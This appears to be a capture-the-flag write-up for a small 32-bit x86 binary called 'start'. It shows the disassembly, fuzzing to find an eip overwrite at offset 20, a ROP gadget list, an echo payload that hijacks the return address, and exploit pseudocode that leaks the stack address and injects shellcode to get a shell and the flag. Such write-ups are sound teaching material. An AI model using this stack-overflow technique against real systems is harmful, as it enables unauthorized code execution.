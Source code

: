 reversing
=========

very small program, presumably written in assembly

```sh
08048060 <_start>:
 8048060:       54                      push   esp
 8048061:       68 9d 80 04 08          push   0x804809d // _exit
 8048066:       31 c0                   xor    eax,eax
 8048068:       31 db                   xor    ebx,ebx
 804806a:       31 c9                   xor    ecx,ecx
 804806c:       31 d2                   xor    edx,edx
 804806e:       68 43 54 46 3a          push   0x3a465443 // "CTF:"
 8048073:       68 74 68 65 20          push   0x20656874 // "the "
 8048078:       68 61 72 74 20          push   0x20747261 // "art "
 804807d:       68 73 20 73 74          push   0x74732073 // "s st"
 8048082:       68 4c 65 74 27          push   0x2774654c // "Let'"
 8048087:       89 e1                   mov    ecx,esp   // *string: sp (as we just pushed the string to stack)
 8048089:       b2 14                   mov    dl,0x14   // length of string: 14
 804808b:       b3 01                   mov    bl,0x1  // fd: 1 (stdout)
 804808d:       b0 04                   mov    al,0x4  // system call number 4: write 
 804808f:       cd 80                   int    0x80   // syscall 
 8048091:       31 db                   xor    ebx,ebx // fd: 0 (stdin)
 8048093:       b2 3c                   mov    dl,0x3c  // count: 61
 8048095:       b0 03                   mov    al,0x3 // sycall #3: read
 8048097:       cd 80                   int    0x80 // read(), ecx remains at sp 
 8048099:       83 c4 14                add    esp,0x14
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    esp
 804809e:       31 c0                   xor    eax,eax
 80480a0:       40                      inc    eax
 80480a1:       cd 80                   int    0x80
```

pushes each 32bit word of the string onto the stack.
writes 14 byte string to stack
reads 61 bytes of input, grows stack by 0x14


fuzzing
=======

1. check security features -> none
2. spam input -> stack smashed, can overwrite eip
3. gdb pattern scan -> offset 20

```sh
gdb ./start 
pattern create
run 
(input pattern)
pattern search (value in eip after program exits)
```

4. decision: binary doesn't have NX bit set, so if we write our shellcode to the stack and set eip to the address we have RCE

shellcoding
===========

1. searching for rop gadgets:

```
0x0804809b: adc al, 0xc3; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048099: add esp, 0x14; ret;
0x080480a0: inc eax; int 0x80;
0x0804808f: int 0x80;
0x08048097: int 0x80; add esp, 0x14; ret;
0x08048085: je 0xae; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809a: les edx, ptr [ebx + eax*8]; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048095: mov al, 3; int 0x80;
0x08048095: mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804808d: mov al, 4; int 0x80;
0x0804808b: mov bl, 1; mov al, 4; int 0x80;
0x08048089: mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048087: mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; .
0x0804809d: pop esp; xor eax, eax; inc eax; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804809e: xor eax, eax; inc eax; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
0x0804809c: ret;

23 gadgets found
```

2. the gadgets at 0x8048087 and x8048086 print esp, which is what we want

```
echo -ne "AAAAAAAAAAAAAAAAAAAA\x87\x80\x04\x08" > shellcode
gdb ./start
run < shellcode
```

3. running throught netcat, it seems aslr is enabled on the server so we need to use our gadget at exploit-time

our exploit should look like this

```
stack = (int)send((padding + le(0x8048087))
send(padding + stack+len(padding) + shellcode)
```

after getting reverse shell using [this](https://shell-storm.org/shellcode/files/shellcode-827.html) shellcode from Hamza Megahed the flag can be found in /home/start!






